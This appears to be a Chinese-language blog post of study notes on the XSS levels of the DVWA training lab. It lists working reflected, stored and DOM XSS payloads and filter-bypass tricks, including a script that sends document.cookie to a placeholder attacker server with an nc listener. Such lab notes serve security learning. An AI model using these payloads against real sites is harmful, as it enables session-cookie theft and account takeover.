 ```yaml
---
layout: post
title: XSS
subtitle: XSS
date: 2024‎-‎11‎-‎03 ‏‎20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```

# XSS
## XSS(Reflected)

### LOW

```html
#获取Cookie
<script>alert('document.cookie')</script>
#访问攻击者服务器
<iframe src='http://ip/time.jpg'></iframe>
#向攻击者服务器发送cookie
#nc -nvlp 80
<script>new Image().src="http://ip/a.php?output="+document.cookie;</script>
```
### MEDIUM

利用大小写，组合过滤条件绕过

```html
<Script>
<scr<script>ipt>
<body onload=alert('')>
<img src="" onerror="alert(document.cookie)"/>
```
### HIGH

```php
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

无法使用\<script>但可以使用其他标签

## XSS(Stored)

### LOW

后台源码：

trim(string,charlist)：移除string字符两侧的预定义字符，预定义字符包括\t 、 \n 、\x0B 、\r以及空格，可选参数charlist支持添加额外需要删除的字符

stripslashes(string)：去除掉string字符的反斜杠＼

mysqli_real_escape_string(string,connection)：函数会对字符串string中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义。

$GLOBALS：引用全局作用域中可用的全部变量。

### MEDIUM

```
htmlspecialchars()
//将标签转为普通字符
```

name为注入点

### HIGH

name为注入点

## XSS(DOM)

### LOW

url注入

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```
### MEDIUM

```
></option></select><img src=1 onerror="alert(document.cookie)"/>
```
### HIGH

服务器对default设置了白名单，攻击代码用#注释不上传到服务器

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=English #<script>alert(document.cookie)</script>
```

